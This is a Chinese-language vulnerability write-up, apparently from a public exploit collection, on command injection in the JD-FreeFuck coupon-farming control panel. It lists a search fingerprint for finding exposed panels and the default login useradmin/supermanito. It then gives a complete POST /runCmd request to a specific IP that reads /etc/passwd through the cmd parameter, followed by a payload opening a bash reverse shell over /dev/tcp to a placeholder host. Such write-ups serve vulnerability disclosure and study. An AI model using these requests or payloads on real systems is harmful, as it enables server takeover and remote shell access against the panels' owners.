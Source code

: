 # 

# JD-FreeFuck 后台命令执行漏洞

## 漏洞描述

JD-FreeFuck 存在后台命令执行漏洞，由于传参执行命令时没有对内容过滤，导致可以执行任意命令，控制服务器

项目地址： https://github.com/meselson/JD-FreeFuck

## 漏洞影响

```
JD-FreeFuck
```

## 网络测绘

```
title="京东薅羊毛控制面板"
```

## 漏洞复现

访问后登录页面如下

![](./images/202202101952995.png)



默认账号密码为

**useradmin/supermanito**

![](./images/202202101952574.png)



发送如下请求包执行命令

```plain
POST /runCmd HTTP/1.1
Host: 101.200.189.251:5678
Content-Length: 50
Pragma: no-cache
Cache-Control: no-cache
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: connect.0.6356777726800276=s%3Av1W6DxlSqnPpVgvMCItxElFeKI1Psh4i.eE4ORs0Yz30N0TOg1pUVpOqrpIHyrqIimuXJVO8lE7U
Connection: close

cmd=bash+jd.sh+%3Bcat /etc/passwd%3B+now&delay=500
```



其中 cmd 参数存在命令注入



![](./images/202202101952947.png)



反弹shell



```plain
cmd=bash+jd.sh+%3Bbash+-c+'exec+bash+-i+%26%3E%2Fdev%2Ftcp%2Fxxx.xxx.xxx.xxx%2F9999+%3C%261'%3B+now&delay=500
```



![](./images/202202101952367.png)

## 
